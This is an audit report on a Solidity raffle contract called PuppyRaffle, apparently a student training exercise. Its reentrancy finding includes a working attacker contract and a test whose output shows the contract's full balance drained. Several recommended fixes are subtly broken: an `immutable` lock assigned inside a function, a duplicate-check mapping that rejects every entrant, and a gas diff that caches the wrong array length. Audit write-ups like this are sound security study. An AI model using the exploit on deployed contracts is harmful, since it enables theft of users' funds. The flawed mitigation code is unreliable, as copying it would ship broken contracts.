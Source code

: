 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./Logo.svg" alt="Logo">
    <div>
    <h1>PuppyRaffle Audit Report</h1>
    <h3>Prepared by: Bikalpa Regmi</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Changing the player balance after calling transfer function may lead to re entrancy attacks in `PuppyRaffle::refund`.](#h-1-changing-the-player-balance-after-calling-transfer-function-may-lead-to-re-entrancy-attacks-in-puppyrafflerefund)
    - [Description :](#description-)
    - [Impact :](#impact-)
    - [Proof Of Concept](#proof-of-concept)
    - [\[H-2\] Weak Randomness in `PuppyRaffle::selectWinner` allows user  to influence or predict the winner \& winning puppy.](#h-2-weak-randomness-in-puppyraffleselectwinner-allows-user--to-influence-or-predict-the-winner--winning-puppy)
    - [\[H-3\] Integer overflow of `PuppyRaffle::totalFees` losses fees.](#h-3-integer-overflow-of-puppyraffletotalfees-losses-fees)
  - [Medium](#medium)
    - [\[M-1\] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants](#m-1-looping-through-players-array-to-check-for-duplicates-in-puppyraffleenterraffle-is-a-potential-dos-vector-incrementing-gas-costs-for-future-entrants)
    - [Description:](#description)
    - [Impact:](#impact)
    - [Proof of Concept:](#proof-of-concept-1)
    - [\[M-2\] `PuppyRaffle::getActivePlayerIndex` returns 0 for non existing player as well as player with zero index.](#m-2-puppyrafflegetactiveplayerindex-returns-0-for-non-existing-player-as-well-as-player-with-zero-index)
  - [Low](#low)
    - [\[L-1\] Winner wouldnt receive their winning amount if their fallback is messed up in smart contract wallet](#l-1-winner-wouldnt-receive-their-winning-amount-if-their-fallback-is-messed-up-in-smart-contract-wallet)
  - [Gas](#gas)
    - [\[G-1\] Unchanged State Variable Should Be Declared Constant or Immutable](#g-1-unchanged-state-variable-should-be-declared-constant-or-immutable)
    - [\[G-2\] Storage variable in a loop should be cached](#g-2-storage-variable-in-a-loop-should-be-cached)
    - [\[G-3\] `PuppyRaffle::_isActivePlayer` is never used and should be removed](#g-3-puppyraffle_isactiveplayer-is-never-used-and-should-be-removed)
  - [Information](#information)
    - [\[I-1\] Solidity pragma should be specific not wide](#i-1-solidity-pragma-should-be-specific-not-wide)
    - [\[I-2\] Using an outdated version of solidity is not reccommended](#i-2-using-an-outdated-version-of-solidity-is-not-reccommended)
    - [\[I-3\] Missing checks for `address(0)` when assigning value to address state variable.](#i-3-missing-checks-for-address0-when-assigning-value-to-address-state-variable)
    - [\[I-4\] Recommended to follow CEI on `PuppyRaffle::selectWinner`.](#i-4-recommended-to-follow-cei-on-puppyraffleselectwinner)
    - [\[I-5\] State changes are missing events](#i-5-state-changes-are-missing-events)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the enterRaffle function with the following parameters:
    i. address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & value if they call the refund function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the value, and the rest of the funds will be sent to the winner of the puppy.
   
# Disclaimer

The Bikalpa teams makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

Commit Hash: 2a47715b30cf11ca82db148704e67652ad679cd8

## Scope 

In Scope:
./src/
#-- PuppyRaffle.sol

## Roles

OwnOwner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the changeFeeAddress function.

Player - Participant of the raffle, has the power to enter the raffle with the enterRaffle function and refund value through refund function.er

# Executive Summary

We spent 12 hr auditing this using foundry test tool. 

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 2                      |
| Low      | 1                      |
| Info     | 8                      |
| Total    | 14                     |

# Findings

## High

### [H-1] Changing the player balance after calling transfer function may lead to re entrancy attacks in `PuppyRaffle::refund`.

### Description : 
The `PuppyRaffle` contract has refund function after transfering the balance as refund function. The attacker can easily find out there is re entrancy attack potential and extract all of the contract balance by using `receive` or `fallback` function. After peoples has entered the `raffle`, the attacker can easily pretend entering raffle & immediatly exit that raffle but the catch here is that he can use `receive` or `fallback` function to receive the refund amount. He can put condition of the following in that receive function -:

```solidity
receive external payable {
if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
}
```
---

### Impact : 
The contract balance may turn into zero. The players will neither be able to receive their raffle nft nor their ethers.

### Proof Of Concept

1. If we have 4 players who have already entered the raffle the contract balance will be increased and the attacker can view it from `etherscan`.

2. The attacker will make his own contract for attacker. That will include receive or fallback function to check a condition and extract all the money :
   
   1. Add the following to the `PuppyRaffleTest.t.sol` as an another contract.
   
<details>
<summary>Code </summary>

```javascript
   contract ReEntranceAttacker {

    PuppyRaffle puppyRaffle ;

    uint256 entranceFee ;
    uint256 attackerIndex ;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle ;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory player = new address[](1);
        player[0] = address(this);

        puppyRaffle.enterRaffle{value:entranceFee*player.length}(player);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

   function _stealMoney() internal {
      if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
   }
    fallback() external payable{
      _stealMoney() ;
    }

    receive() external payable{
   _stealMoney();
    }
    }

``` 
</details>

2.Add the following in `PuppyRaffleTest.t.sol` as an test.

<details>
<summary> Code</summary>

```javascript

 function test_reentrancy_refund() public {
        address[] memory players = new address[](4);
        players[0] = playerFour;
        players[1] = playerOne;
        players[2] = playerTwo;
        players[3] = playerThree;
        
        puppyRaffle.enterRaffle{value:entranceFee*4}(players);

        ReEntranceAttacker attackerContract = new ReEntranceAttacker(puppyRaffle) ;
        address attackUser = makeAddr("AtackUser");
        vm.deal(attackUser , 1 ether);

        console.log("Attacker Contract Balance Before attacking ", address(attackerContract).balance);
        console.log("Victim contract Balance before attacking ", address(puppyRaffle).balance);

        vm.prank(attackUser);
        attackerContract.attack{value:entranceFee}();

        console.log("Attacker Contract Balance after attacking ", address(attackerContract).balance);
        console.log("Victim contract Balance after attacking ", address(puppyRaffle).balance);

    }

```

</details>

At console you will see the following :
```
Attacker Contract Balance Before attacking 0

Victim contract Balance before attacking 4 ethers

Attacker Contract Balance after attacking 5 ethers

Victim contract Balance after attacking 0

```

**Recomendation**

1. Consider using `nonReentrant` guard from openzeppelin library.

<details>
<summary>Code</summary>

```
function refund(uint256 playerIndex) public nonReentrant{
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```
</details>

2. Consider first checking the condition, then update the state and then only transfer the fund.

<details>
<summary>Code</summary>

```
function refund(uint256 playerIndex) public  {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        players[playerIndex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

        emit RaffleRefunded(playerAddress);
```
</details>

3. Consider using boolean that locks or unlock the function

<details>
<summary>Code</summary>

```
bool public immutable lock ;

function refund(uint256 playerIndex) public nonReentrant{
        lock = false ;
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
        lock = true ;
```
</details>

### [H-2] Weak Randomness in `PuppyRaffle::selectWinner` allows user  to influence or predict the winner & winning puppy.

**Description**: Weak PRNG due to a modulo on block.timestamp, now or blockhash. These can be influenced by miners to some extent so they should be avoided. This additionally means the users could frontrun this function & call `refund` if they see they are not winner.

**Impact**: Any user can influence the winner of the raffle, winning the money selecting the `desired` and `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffle.

**Proof of concept**: 
1. Validator can know ahead of the time `block.timestamp` & `block.difficulty` also use that to predect where and how to participate. `block.timestamp` was recently replaced with the pervrando.
2. User can `mine\manilupate` the msg.sender value to result in there address being used to generate winner.
3. User can revert if they dont like the desired puppy.

**Reccomended Mitigation :**
Consider using the cryptographically proovable random number generator such as chainlink VRF.


### [H-3] Integer overflow of `PuppyRaffle::totalFees` losses fees.

**Description:** In solidity version prior to `0.8.0` integers subject were to integer overflows.

```javascript
uint myVar = type(uint64).max ;
myVar=myVar+1 ;

//The myVar will be zero
```

**Impact:** In `PuppyRaffle::selectWinner`, totalfees are accumulated for `feeAddress` to collect later in `PuppyRaffle::withDrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fee leaving the fee stuck in the contract forever.

**Proof of concept:**

<details>
<summary>code</summary>

```javascript
 totalFees = totalFees+uint64(fee);

 totalFees = totalFees+1;

 //The result will be 0
```

</details>

**Recommended Mitigation:** There are few possible mitigation-:
1. Use a new version of solidity `0.8.0` over old ones.
2. Use `uint256` instead of `uint64` in `puppyRaffle::totalFees`.
3. Use `SafeMath` library from openzeppelin. However you would have hard time with `uint64` type if too many fees are collected.
4. Remove the balance check from `PuppyRaffle::withdrawFees`.

``` diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

There are more attack vectors with above require statement such as `selfdestruct`,`DOS`,etc. Recommended to remove that regardless.

------
-----
----

## Medium

### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants

### Description:
The `PuppyRaffle::enterRaffle` function has a duplicate checking mechanism that loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means that the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional play in the `players` array is an additional check the loop will have to make.

> **Note to students:** This next line would likely be its own finding itself. However, we haven’t taught you about MEV yet, so we are going to ignore it.

Additionally, this increased gas cost creates front-running opportunities where malicious users can front-run another raffle entrant’s transaction, increase its costs, so their enter transaction fails.

---

### Impact:
The impact is two-fold:

1. The gas costs for raffle entrants will greatly increase as more players enter the raffle.  
2. Front-running opportunities are created for malicious users to increase the gas costs of other users, so their transaction fails.

---

### Proof of Concept:

If we have 2 sets of 100 players enter, the gas costs will be as such:
- **1st 100 players**: 6,251,420  
- **2nd 100 players**: 18,066,229  

This is more than **3x** as expensive for the second set of 100 players!

This is due to the `for` loop in the `PuppyRaffle::enterRaffle` function.

Place the following test into `PuppyRaffleTest.t.sol`


<details>
<summary> Code </summary>

```javascript


function testDenailOfService() public {
        vm.txGasPrice(1);
     address[] memory players = new address[](100);

     for(uint i = 0 ; i<100 ; ++i){
        players[i] = address(i);
     }
 uint gasStartFirst = gasleft();
     puppyRaffle.enterRaffle{value:entranceFee * players.length}(players);
     uint gasEndFirst = gasleft();
     uint gasUsedFirst = (gasStartFirst-gasEndFirst)*tx.gasprice ;
     console.log("gas cost of first 100 players is " , gasUsedFirst);

address[] memory newPlayers = new address[](100);
     for(uint i = 0 ; i<100 ; ++i){
        newPlayers[i] = address(i+100) ;
     }

uint gas2StartPrice = gasleft();

puppyRaffle.enterRaffle{value:entranceFee*newPlayers.length}(newPlayers);
uint gas2EndPrice = gasleft();

uint gasUsedSecond = (gas2StartPrice-gas2EndPrice)*tx.gasprice;

console.log("gas cost of second 100 players is ",gasUsedSecond);

assert(gasUsedSecond>gasUsedFirst);
    } 

```
</details>

**Recommendation**

1. Consider allowing duplicates. User can create new wallet anyways, so the duplicate check wont prevent a person to enter multiple times.
2. Consider using mappings to duplicate. This will allow you to check constant in constant time rather that linear time.

<details>
<summary>Code</summary>

```solidity
mapping(address => uint256) public addressToRaffleId;
uint256 public raffleId = 0;

function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, 
        "PuppyRaffle: Must send enough to enter raffle");

    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
        addressToRaffleId[newPlayers[i]] = raffleId;
    }

    // Check for duplicates only from the new players
    for (uint256 i = 0; i < newPlayers.length; i++) {
        require(addressToRaffleId[newPlayers[i]] != raffleId, 
            "PuppyRaffle: Duplicate player");
    }

    emit RaffleEnter(newPlayers);
}
```
</details>

Removed Code:

<details>
<summary>Code</summary>

```solidity
// Check for duplicates
for (uint256 i = 0; i < players.length; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], 
            "PuppyRaffle: Duplicate player");
    }
}
```
</details>

Alternatively , you could use [`OpenZeppelin`] `EnumerableSet` library.

### [M-2] `PuppyRaffle::getActivePlayerIndex` returns 0 for non existing player as well as player with zero index.

**Description** If a player is in `PuppyRaffle::players` array at index 0 it will return 0, but according to natspac, it will also return 0 if the player is not in the array.

```javascript
        // if the active player index is 0 it will return 0. The player might think he has not joined the raffle.
  function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

**Impact** The player at index 0 to incorrectly think s\he hasn't enter the raffle & attempt to enter the raffle again wasting gas.

**Proof of Concept** 
1.User enter the raffle who is the first entran.
2.He checks if he has entered or not using `PuppyRaffle::getActivePlayerIndex`.
3.The function returs 0 & make this person think s\he hasn't enter the raffle.

**Recommended Mitigation** The simplest mitigation will be to simply revert if the person has not entered inside an array instead of returning zero. 
You can also use boolean value to check if the person has entered or not.

------
---
---

## Low

### [L-1] Winner wouldnt receive their winning amount if their fallback is messed up in smart contract wallet

**Description:** The `PuppyRaffle::selectWinner` is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payments, the lottery would not be able to restart.

User could easily call `selectWinner` again and non-wallet entrant could enter, but it could cost a lot due to duplicate check & a lottery reset could get very challenging.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, making it difficult to receive the money. Also, The true winner couldn't receive the money & someone else will take their money.

**Proof of Concept:** 
1. 10 smart contract wallet enters the lottery without fallback or receive function.
2. The lottery ends.
3. The `SelectWinner` function wouldn't work even if the lottery is over.

**Recommended Mitigation:** Create a mapping of address=>payouts so that the winner could claim the reward themselves with a new `claimPrice`, putting the owness to the winner instead for contract. [Pull over push method]

---
---
---

## Gas

### [G-1] Unchanged State Variable Should Be Declared Constant or Immutable

Reading from the storage is much more expensive that reading from constant or immutable variable.

Instance :
-`PuppyRaffle::raffleDuration` Should Be `Immutable`.
-`PuppyRaffle::commonImageUri` Should be `Constant`.
-`PuppyRaffle::rareImageUri` Should be `Constant`.
-`PuppyRaffle::legendaryImageUri` Should be `Constant`.

### [G-2] Storage variable in a loop should be cached

```diff
+ uint256 playerLength = players.length ;
-  for (uint256 i = 0; i < newPlayers.length; i++) {
+  for (uint256 i = 0; i < playerLength; i++) {
            players.push(newPlayers[i]);
        }
```

### [G-3] `PuppyRaffle::_isActivePlayer` is never used and should be removed


--- 
---
---

## Information

### [I-1] Solidity pragma should be specific not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

### [I-2] Using an outdated version of solidity is not reccommended

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [slither] documentation https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity for more Information.

### [I-3] Missing checks for `address(0)` when assigning value to address state variable.

Assigning values to `address(0)` without checking for `address(0)`.

-Found in `PuppyRaffle::constructor`

### [I-4] Recommended to follow CEI on `PuppyRaffle::selectWinner`.
It is always best to keep your code clean using CEI to prevent Re-Entrancy Attack.

```diff
- (bool success,) = winner.call{value: prizePool}("");
-      require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+     (bool success,) = winner.call{value: prizePool}("");
+      require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

### [I-5] State changes are missing events

---
----
---
